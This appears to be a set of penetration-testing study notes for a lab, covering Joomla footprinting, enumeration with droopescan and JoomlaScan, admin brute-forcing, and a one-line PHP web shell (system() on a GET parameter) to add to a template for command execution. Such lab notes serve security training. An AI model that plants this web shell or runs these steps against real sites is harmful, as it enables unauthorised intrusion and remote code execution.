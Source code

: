 # Joomla Attacks

* get Joomla installs!

```shell-session
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool
```

### Discovery/Footprinting

```shell-session
curl -s http://dev.inlanefreight.local/ | grep Joomla
```

```shell-session
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```

```shell-session
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```

* The `cache.xml` file can help to give us the approximate version.

```
curl -s http://app.inlanefreight.local/plugins/system/cache/cache.xml | xmllint --format -
```

### Enumeration

* &#x20;try out [droopescan](https://github.com/droope/droopescan)

#### droopescan

```shell-session
sudo pip3 install droopescan
```

```shell-session
droopescan -h
```

```shell-session
droopescan scan joomla --url http://dev.inlanefreight.local/
```

#### JoomlaScan

* &#x20;We can also try out [JoomlaScan](https://github.com/drego85/JoomlaScan), which is a Python tool inspired by the now-defunct OWASP [joomscan](https://github.com/OWASP/joomscan) tool.

```
sudo python2.7 -m pip install urllib3

sudo python2.7 -m pip install certifi

sudo python2.7 -m pip install bs4
```

```shell-session
python2.7 joomlascan.py -u http://dev.inlanefreight.local
```

### brute-forcing

* The default administrator account on Joomla installs is `admin`,
  * but the password is set at install time
* We can use this [script](https://github.com/ajnik/joomla-bruteforce) to attempt to brute force the login.

## Attacking Joomla

* add to templated file

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```
